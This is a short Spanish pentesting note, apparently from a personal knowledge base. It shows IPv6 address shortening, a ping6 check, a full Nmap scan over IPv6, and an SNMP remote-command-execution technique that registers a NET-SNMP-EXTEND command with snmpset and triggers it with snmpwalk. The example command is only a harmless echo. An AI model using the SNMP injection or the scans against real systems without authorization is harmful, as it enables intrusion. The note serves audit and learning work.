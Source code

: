 ### Y una vez tengamos el formato correcto de la IPv6 es importante tener en cuenta que los '0' se pueden eliminar:

## dead:beef::250:56ff:feb9:97ef

### Una vez tengamos la IPv6 podríamos hacer uso de herramientas como **ping6** para ver si existe traza con dicha IP. 

```bash
ping6 -c 1 dead:beef::250:56ff:feb9:97ef
```

### De esta manera podríamos realizar un escaneo con [[Nmap]] por IPv6 y ver si los puertos son distintos. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -6 dead:beef::250:56ff:feb9:97ef -oG allPortsv6
```

#### Para acceder a recursos hosteados desde el navegador desde ipv6, deberíamos hacer uso de los corchetes: \[ dead:beef::250:56ff:feb9:97ef \] 

----

# [[RCE - (Remote Command Execution)]] vía SNMP 

### Como sabemos, de cara a una auditoría lo que siempre buscamos es un escenario en el cual contemos con [[RCE - (Remote Command Execution)]], en este caso existen potenciables maneras de lograr esta abusando de SNMP. 

## Inyectar un comando malicioso. 

### Podríamos intentar inyectar un comando de la siguiente manera: 

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c {community_string} {target_ip} \
    'nsExtendStatus."evilcommand"'  = createAndGo \
    'nsExtendCommand."evilcommand"' = /bin/echo \
    'nsExtendArgs."evilcommand"'    = 'hello world'
```

### En caso de que logremos inyectar el comando de manera exitosa, podríamos ver la ejecución de este:

```bash
snmpwalk -v2c -c {community_string} {target_ip} NET-SNMP-EXTEND-MIB::nsExtendObjects
```